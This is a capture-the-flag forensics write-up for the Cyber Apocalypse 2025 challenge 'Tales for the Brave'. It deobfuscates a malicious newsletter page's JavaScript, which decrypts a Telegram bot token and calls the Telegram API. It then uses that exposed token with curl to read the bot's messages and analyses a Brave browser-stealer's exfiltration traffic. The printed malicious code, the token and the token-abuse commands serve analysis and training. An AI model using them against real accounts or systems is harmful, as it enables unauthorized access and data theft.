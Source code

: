 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: Check out our writeup for Tales for the Brave for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: "forensics, twh, javascript, obfuscation, api, win32pe, wireshark"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```




> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the JavaScript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded JavaScript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
> cat index.html
<!DOCTYPE html>
<html lang="en"><head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Newsletter Signup</title>
  <link rel="stylesheet" href="index.css">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
</head>
<body>
  <div class="newsletter">
    <div class="image-section">
      <img src="img/storytellingEldoriaMyths.png" alt="Rings">
    </div>
    <div class="form-section">
      <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
      <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
      <form id="newsletterForm">
        <input type="email" id="email" placeholder="Email">
                <input type="text" id="descriptionField" placeholder="Description">
        <div class="checkbox-group">
          <p>The newsletter offers:</p>
          <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
          <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
          <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
          <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
        </div>
        <div class="buttons">
            <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
        </div>
      </form>
    </div>
  </div>
  <script src="./decrypted.js"></script>


</body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- It's an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
for (var i = 0; i < 31; i++) {
    console.log(i, _$_5975[i])
}
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
        var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
            drop: 192
        }).toString(CryptoJS.enc.Utf8);
        var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;

        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                const resp = JSON.parse(xhr.responseText);
                try {
                    const link = resp.result.text;
                    window.location.replace(link)
                } catch (error) {
                    alert('Form submitted!')
                }
            }
        };
        console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
        xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
        //xhr.send(null)
    } else {
        alert('Form submitted!')
    }
```

- Decryption block is executed if the condition is satisfied : 

```
oferker -> email before @tld
G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request, so I inspected the URL : 

```
console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')

GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called, and we get the following things : 

```
Bot ID : bot7767830636
Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
chat_id : Null
from_chat_id : -1002496072246
message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram, and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
> curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp

{
   "ok" : true,
   "result" : {
      "can_connect_to_business" : false,
      "can_join_groups" : true,
      "can_read_all_group_messages" : false,
      "first_name" : "OperationEldoriaBot",
      "has_main_web_app" : false,
      "id" : 7767830636,
      "is_bot" : true,
      "supports_inline_queries" : false,
      "username" : "OperationEldoriaBot"
   }
}
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc. I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exist
- So I did the following :

```
Added the domain in windows Hosts file
Started a PHP server on my other box on port 31337 as seen in wireshark
Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was a `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
